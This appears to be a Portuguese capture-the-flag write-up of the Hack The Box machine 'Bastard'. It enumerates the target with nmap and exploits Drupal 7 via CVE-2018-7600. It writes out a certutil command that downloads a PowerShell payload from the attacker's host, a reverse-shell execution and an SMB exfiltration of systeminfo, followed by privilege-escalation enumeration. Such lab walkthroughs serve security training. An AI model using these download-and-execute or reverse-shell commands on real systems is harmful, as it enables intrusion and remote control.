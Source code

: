 ```yaml
---
title:     "Hack The Box - Bastard"
tags: [windows,medium]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/1.jpg)

## Enumeration

Inicialmente, utilizamos o nmap para obter informacoes por exemplo: version, ports, status, vulns...

```
root@kali:~/HTB-Windows/bastard# nmap -Pn -p- -oN nmap/allports_tcp 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 21:06 EDT
Nmap scan report for 10.10.10.9
Host is up (0.20s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 430.79 seconds
```

Um novo scan apenas com as portas encontradas e assim obter versionamento.

```
oot@kali:~/HTB-Windows/bastard# nmap -sV -p80,135 -oN nmap/version 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 23:14 EDT
Nmap scan report for 10.10.10.9
Host is up (0.19s latency).

PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 7.5
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.51 seconds
```

Navegando ate o servido HTTP na porta 80, indentificco um DRUPAL

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/2.jpg)

Huuuuuum... Veriricando o source do site eu vejo que trata-se de um **DRUPAL 7** e de acordo com minha experiencia existe exploits pra versao.

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/3.jpg)

## Find exploits

Uma busca rapida encontramos varias formas de explorar

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/4.jpg)


## Exploitation

Encontrei um exploit interessante e precisamos testar **CVE-2018-7600**

***reference*** https://github.com/pimps/CVE-2018-7600.git

Realmente eh vulneravel

`python drupa7-CVE-2018-7600.py -c whoami http://10.10.10.9/`

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/5.jpg)

## Reverse Shell

Estou um tempinho tentando transferir arquivos para maquina e assim obter uma reverse shell

Acabei de fazer um teste e ver se o alvo se comunicava de volta comigo e sim, esta tudo ok.. preciso continuar tentando encontrar uma maneira de transferir arquivos..

AHhh, lembrando que eu ja dei uma verificada rapidas nos arquivos encontrados no diretorio do drupal.

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/6.jpg)

Consegui usando o certutil

`python drupa7-CVE-2018-7600.py -c "certutil -urlcache -split -f http://10.10.14.36/shell.ps1 shell.ps1" http://10.10.10.9/`

`certutil -urlcache -split -f http://10.10.14.36/shell.ps1 shell.ps1`

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/7.jpg)

Enfim pegamos nossa reverse shell

`python drupa7-CVE-2018-7600.py -c "powershell.exe -exec bypass .\shell.ps1" http://10.10.10.9/`

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/8.jpg)

## Privilege Escalation

Vamos comecar a sessao de PE e assim ter acesso de user e system

![9.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/9.jpg)

Continuando a busca por vetores de escalada, comeco sempre por kernel exploitation, vamos user o **wesng** e o **windows-exploit-suggester**

Mas primeiro precisamos transferir o output do comando  **systeminfo** para nossa maquina.. usei o smbserver do impacket

`PS C:\inetpub\drupal-7.54> systeminfo >> \\10.10.14.36\tools\systeminfo.txt`

![10.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/10.jpg)

```
root@kali:~/HTB-Windows/bastard# ls
drupal  Invoke-PowerShellTcp.ps1  nmap  shell.ps1  wpe
root@kali:~/HTB-Windows/bastard# cd wpe/
root@kali:~/HTB-Windows/bastard/wpe# ls
systeminfo.txt
root@kali:~/HTB-Windows/bastard/wpe# python /opt/windowsPrivEsc/wesng/wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only >> exploits_sugest_wes.txt
usage: wes.py [-u] [--update-wes] [--version] [--definitions [DEFINITIONS]]
              [-p INSTALLEDPATCH [INSTALLEDPATCH ...]] [-d] [-e]
              [--hide HIDDENVULN [HIDDENVULN ...]] [-i IMPACTS [IMPACTS ...]]
              [-s SEVERITIES [SEVERITIES ...]] [-o [OUTPUTFILE]]
              [--muc-lookup] [-h]
              systeminfo [qfefile]
wes.py: error: argument --definitions: Definitions file 'definitions.zip' does not exist. Try running wes.py --update first.
root@kali:~/HTB-Windows/bastard/wpe# python /opt/windowsPrivEsc/wesng/wes.py --update
Windows Exploit Suggester 0.98 ( https://github.com/bitsadmin/wesng/ )
[+] Updating definitions
[+] Obtained definitions created at 20200616
root@kali:~/HTB-Windows/bastard/wpe# python /opt/windowsPrivEsc/wesng/wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only >> exploits_sugest_wes.txt
root@kali:~/HTB-Windows/bastard/wpe# 
```

Output do wes.py

```
Windows Exploit Suggester 0.98 ( https://github.com/bitsadmin/wesng/ )
[+] Parsing systeminfo output
[+] Operating System
    - Name: Windows Server 2008 R2 for x64-based Systems
    - Generation: 2008 R2
    - Build: 7600
    - Version: None
    - Architecture: x64-based
    - Installed hotfixes: None
[+] Loading definitions
    - Creation date of definitions: 20200616
[+] Determining missing patches
[+] Filtering duplicate vulnerabilities
[+] Applying display filters
[+] Found vulnerabilities

Date: 20120612
CVE: CVE-2012-0217
KB: KB2709715
Title: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploits: https://www.exploit-db.com/exploits/28718/, https://www.exploit-db.com/exploits/46508/

Date: 20130108
CVE: CVE-2013-0008
KB: KB2778930
Title: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploit: http://www.exploit-db.com/exploits/24485

Date: 20110208
CVE: CVE-2010-4398
KB: KB2393802
Title: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploits: http://www.exploit-db.com/bypassing-uac-with-user-privilege-under-windows-vista7-mirror/, http://www.exploit-db.com/exploits/15609/

[+] Missing patches: 3
    - KB2778930: patches 1 vulnerability
    - KB2393802: patches 1 vulnerability
    - KB2709715: patches 1 vulnerability
[+] KB with the most recent release date
    - ID: KB2778930
    - Release date: 20130108

[+] Done. Displaying 3 of the 207 vulnerabilities found.
```

Agora, usando o windows-exploit-suggester.py e com a opcao para apenas exploits LOCAL

```
root@kali:/opt/Windows-PrivEsc-Tools/Windows-Exploit-Suggester# python windows-exploit-suggester.py --database 2020-06-23-mssb.xls --systeminfo /root/HTB-Windows/bastard/wpe/systeminfo.txt -l
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (UTF-16)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[*] searching for local exploits only
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[*] done
```

